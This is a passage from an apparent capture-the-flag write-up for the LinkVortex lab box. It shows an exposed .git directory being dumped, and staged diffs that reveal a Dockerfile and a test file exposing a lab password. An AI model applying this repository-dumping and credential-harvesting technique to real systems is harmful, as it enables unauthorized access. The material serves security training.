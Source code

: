 ```bash
[-] Fetching http://dev.linkvortex.htb/.git/objects/50/864e0261278525197724b394ed4292414d9fec [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/e6/54b0ed7f9c9aedf3180ee1fd94e7e43b29f000 [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/pack/pack-0b802d170fe45db10157bb8e02bfc9397d5e9d87.pack [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/pack/pack-0b802d170fe45db10157bb8e02bfc9397d5e9d87.idx [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 5596 paths from the index
```

Since this is a `.git` directory that we have dumped, there might very well be some staged changes. We can see that with:


```bash
┌──(kali㉿kali)-[~/htb/boxes/linkvortex/git_dump]
└─$ git status                                       
Not currently on any branch.
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        new file:   Dockerfile.ghost
        modified:   ghost/core/test/regression/api/admin/authentication.test.js
```

So lets do a diff on the local changes and see what we might find:

```diff
┌──(kali㉿kali)-[~/htb/boxes/linkvortex/git_dump]
└─$ git diff --cached
diff --git a/Dockerfile.ghost b/Dockerfile.ghost
new file mode 100644
index 0000000..50864e0
--- /dev/null
+++ b/Dockerfile.ghost
@@ -0,0 +1,16 @@
+FROM ghost:5.58.0
+
+# Copy the config
+COPY config.production.json /var/lib/ghost/config.production.json
+
+# Prevent installing packages
+RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb
+
+# Wait for the db to be ready first
+COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
+COPY entry.sh /entry.sh
+RUN chmod +x /var/lib/ghost/wait-for-it.sh
+RUN chmod +x /entry.sh
+
+ENTRYPOINT ["/entry.sh"]
+CMD ["node", "current/index.js"]
diff --git a/ghost/core/test/regression/api/admin/authentication.test.js b/ghost/core/test/regression/api/admin/authentication.test.js
index 2735588..e654b0e 100644
--- a/ghost/core/test/regression/api/admin/authentication.test.js
+++ b/ghost/core/test/regression/api/admin/authentication.test.js
@@ -53,7 +53,7 @@ describe('Authentication API', function () {
 
         it('complete setup', async function () {
             const email = 'test@example.com';
-            const password = 'thisissupersafe';
+            const password = 'OctopiFociPilfer45';
 
             const requestMock = nock('https://api.github.com')
```